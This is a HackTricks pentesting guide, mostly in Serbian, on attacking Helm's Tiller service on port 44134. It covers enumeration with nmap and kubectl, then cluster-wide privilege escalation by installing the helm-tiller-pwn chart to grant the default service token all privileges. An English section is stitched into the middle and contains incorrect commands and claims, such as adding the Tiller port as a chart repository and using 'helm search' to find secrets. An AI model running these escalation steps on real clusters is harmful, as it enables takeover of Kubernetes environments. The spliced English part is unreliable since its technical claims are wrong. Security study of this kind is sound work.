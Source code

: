 # 44134 - Pentesting Tiller (Helm)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Osnovne informacije

Helm je **upravljač paketima** za Kubernetes. Omogućava pakovanje YAML fajlova i distribuciju istih u javnim i privatnim repozitorijumima. Ovi paketi se nazivaju **Helm Charts**. **Tiller** je **servis** koji se **podrazumevano pokreće** na portu 44134 i pruža uslugu.

**Podrazumevani port:** 44134

```
PORT      STATE SERVICE VERSION
44134/tcp open  unknown
```

## Enumeracija

Ako možete **izlistati podove i/ili servise** različitih imenskih prostora, izlistajte ih i potražite one koji imaju **"tiller" u svom imenu**:

```bash
kubectl get pods | grep -i "tiller"
kubectl get services | grep -i "tiller"
kubectl get pods -n kube-system | grep -i "tiller"
kubectl get services -n kube-system | grep -i "tiller"
kubectl get pods -n <namespace> | grep -i "tiller"
kubectl get services -n <namespace> | grep -i "tiller"
```

### Pentesting Tiller (Helm)

#### Introduction

Tiller is the server-side component of Helm, a package manager for Kubernetes. It manages the deployment of charts, which are packages of pre-configured Kubernetes resources. Pentesting Tiller involves identifying security vulnerabilities and misconfigurations that could be exploited by an attacker.

#### Enumeration

To begin the pentesting process, you need to enumerate the Tiller service. This can be done using tools like `nmap` or `masscan` to scan for open ports. The default port for Tiller is `44134`.

```bash
nmap -p 44134 <target_ip>
```

#### Exploitation

Once you have identified an open Tiller port, you can attempt to exploit it. One common vulnerability is the lack of authentication, which allows anyone to connect to the Tiller server without credentials. This can be exploited using the `helm` command-line tool.

```bash
helm init --client-only
helm repo add stable http://<target_ip>:44134
helm search
```

#### Post-Exploitation

After successfully exploiting Tiller, you can perform various post-exploitation activities. For example, you can search for sensitive information, such as Kubernetes secrets, by using the `helm search` command. Additionally, you can deploy malicious charts to gain persistence or execute arbitrary code on the Kubernetes cluster.

#### Mitigation

To mitigate the risks associated with Tiller, it is recommended to follow these best practices:

1. Enable authentication for Tiller by configuring it with a secure authentication mechanism, such as TLS certificates or RBAC.
2. Restrict network access to the Tiller service by using firewalls or network policies.
3. Regularly update Helm and Tiller to ensure you have the latest security patches.
4. Use RBAC to limit the permissions of Tiller, ensuring it only has the necessary privileges to perform its functions.
5. Monitor Tiller logs for any suspicious activity or unauthorized access attempts.

By following these mitigation techniques, you can enhance the security of your Tiller installation and protect your Kubernetes cluster from potential attacks.

```bash
kubectl get pods -n kube-system
NAME                                       READY   STATUS             RESTARTS   AGE
kube-scheduler-controlplane                1/1     Running            0          35m
tiller-deploy-56b574c76d-l265z             1/1     Running            0          35m

kubectl get services -n kube-system
NAME            TYPE        CLUSTER-IP     EXTERNAL-IP   PORT(S)                  AGE
kube-dns        ClusterIP   10.96.0.10     <none>        53/UDP,53/TCP,9153/TCP   35m
tiller-deploy   ClusterIP   10.98.57.159   <none>        44134/TCP                35m
```

Takođe možete pokušati da pronađete ovu uslugu proverom porta 44134:

```bash
sudo nmap -sS -p 44134 <IP>
```

Jednom kada ste otkrili to, možete komunicirati s njim preuzimanjem klijentske aplikacije helm. Možete koristiti alate poput `homebrew`, ili pogledati [**zvaničnu stranicu izdanja**](https://github.com/helm/helm/releases)**.** Za više detalja ili druge opcije, pogledajte [vodič za instalaciju](https://v2.helm.sh/docs/using\_helm/#installing-helm).

Zatim, možete **izlistati uslugu**:

```
helm --host tiller-deploy.kube-system:44134 version
```

### Eskalacija privilegija

Podrazumevano je da je **Helm2** instaliran u **kube-system** namespace-u sa **visokim privilegijama**, pa ako pronađete uslugu i imate pristup njoj, to vam može omogućiti **eskalciju privilegija**.

Sve što trebate da uradite je da instalirate paket poput ovog: [**https://github.com/Ruil1n/helm-tiller-pwn**](https://github.com/Ruil1n/helm-tiller-pwn) koji će omogućiti **podrazumevani pristup tokena usluge svemu u celokupnom klasteru.**

```
git clone https://github.com/Ruil1n/helm-tiller-pwn
helm --host tiller-deploy.kube-system:44134 install --name pwnchart helm-tiller-pwn
/pwnchart
```

U [http://rui0.cn/archives/1573](http://rui0.cn/archives/1573) imate **objašnjenje napada**, ali u osnovi, ako pročitate datoteke [**clusterrole.yaml**](https://github.com/Ruil1n/helm-tiller-pwn/blob/main/pwnchart/templates/clusterrole.yaml) i [**clusterrolebinding.yaml**](https://github.com/Ruil1n/helm-tiller-pwn/blob/main/pwnchart/templates/clusterrolebinding.yaml) unutar _helm-tiller-pwn/pwnchart/templates/_ možete videti kako se **sve privilegije dodeljuju podrazumevanom token-u**.

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju oglašenu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
